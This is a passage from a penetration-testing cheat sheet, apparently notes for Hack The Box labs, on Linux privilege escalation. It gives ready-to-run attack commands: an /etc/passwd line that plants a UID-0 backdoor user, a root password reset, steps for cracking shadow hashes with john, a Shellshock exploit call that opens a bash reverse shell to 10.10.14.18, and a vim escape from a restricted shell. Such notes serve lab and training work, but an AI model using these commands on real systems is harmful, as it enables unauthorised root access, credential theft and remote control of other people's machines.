 <code> pentester:$1$2AL4ULeB$vPb2hnoy5xgsBueJSXTsj0:0:0::/:/bin/bash </code>
Password1

#### fast change password


`echo root:toor | chpasswd`

### Shadow file 

#### make shadow files

Generate shadow files ([stackoverflow](https://unix.stackexchange.com/questions/81240/manually-generate-password-for-etc-shadow)):

<code> openssl passwd -6 -salt xyz  yourpass </code>

Note: passing -1 will generate an MD5 password, -5 a SHA256 and -6 SHA512 (recommended)

To understand which hash you need, check what is $X$:

username:$X$salt$pass....

* $1$ is MD5
* $2a$ is Blowfish
* $2y$ is Blowfish
* $5$ is SHA-256
* $6$ is SHA-512

AND dont forget salt!

#### crack shadow file

1. copy and unshadow
2. crack with john 


## Post Exploitation

https://guif.re/linuxeop#Post%20exploitation


## Diverse Other exploits

### Shell Shock 

* spot /cgi-bin
* dirbust .sh .cgi or some more exotic script files in it 
* use 34766.php

`php 34766.php -u http://shocker.htb/cgi-bin/user.sh -c "sh -i >& /dev/tcp/10.10.14.18/443 0>&1" `

### Breaking out of restricted shell using vim

```bash
vim
:set shell=/bin/sh
:shell
```
